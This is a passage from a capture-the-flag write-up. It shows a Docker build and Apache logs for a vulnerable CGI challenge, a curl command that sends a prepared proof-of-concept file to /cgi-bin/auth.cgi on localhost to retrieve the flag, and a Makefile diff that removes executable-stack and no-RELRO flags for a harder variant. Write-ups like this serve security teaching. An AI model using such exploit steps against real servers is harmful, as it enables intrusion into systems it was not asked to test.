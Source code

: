 Pretty cool!

## Final step

Finally, we need to send it against the server! I run the server with the given `Dockerfile`, forwarding port 8888:

```
ron@ridcully ~/ctf-2024/challenges/cant-give-in/challenge [challenge-cant-give-in]× $ docker build --progress=plain -t test . && docker run -p8888:80 --rm -it test
#0 building with "default" instance using docker driver

#1 [internal] load build definition from Dockerfile
#1 transferring dockerfile: 732B done
#1 DONE 0.0s

#2 [internal] load metadata for docker.io/library/httpd:2.4.58
#2 DONE 0.4s

...

#19 exporting to image
#19 exporting layers done
#19 writing image sha256:4e32fbd578f72b3faa13e0198e0b135366fc7be15cc267ec1d939e9f115364b2 done
#19 naming to docker.io/library/test done
#19 DONE 0.0s
AH00558: httpd: Could not reliably determine the server's fully qualified domain name, using 172.17.0.3. Set the 'ServerName' directive globally to suppress this message
AH00558: httpd: Could not reliably determine the server's fully qualified domain name, using 172.17.0.3. Set the 'ServerName' directive globally to suppress this message
[Fri Apr 12 21:16:31.011199 2024] [mpm_event:notice] [pid 7:tid 140256014165888] AH00489: Apache/2.4.58 (Unix) configured -- resuming normal operations
[Fri Apr 12 21:16:31.011419 2024] [core:notice] [pid 7:tid 140256014165888] AH00094: Command line: 'httpd -D FOREGROUND -c LoadModule cgid_module modules/mod_cgid.so'
```

Then send the same file as a POST body to the `/cgi-bin/auth.cgi` endpoint:

```
$ curl --data-binary @/tmp/poc.bin 'http://localhost:8888/cgi-bin/auth.cgi' --output -
CTF{certified-genuine-instruct
```

Our PoC from last year truncates it a bit, but you get the idea!

# Part 2: `cant-give-in-secure`

Other than the flag and pointless password, part 2 only has one small change, but boy is it a doozie:

```diff
$ diff -rub cant-give-in/challenge/ cant-give-in-secure/challenge/

[...]

diff '--color=auto' -rub cant-give-in/challenge/src/Makefile cant-give-in-secure/challenge/src/Makefile
--- cant-give-in/challenge/src/Makefile 2024-04-12 13:31:39.443488015 -0400
+++ cant-give-in-secure/challenge/src/Makefile  2024-04-12 13:31:39.408487713 -0400
@@ -1,4 +1,4 @@
-CFLAGS?=-Wall -fno-stack-protector -no-pie -z execstack -z norelro -static -g
+CFLAGS?=-Wall -fno-stack-protector -no-pie -static -g
 
 all: auth.cgi
```
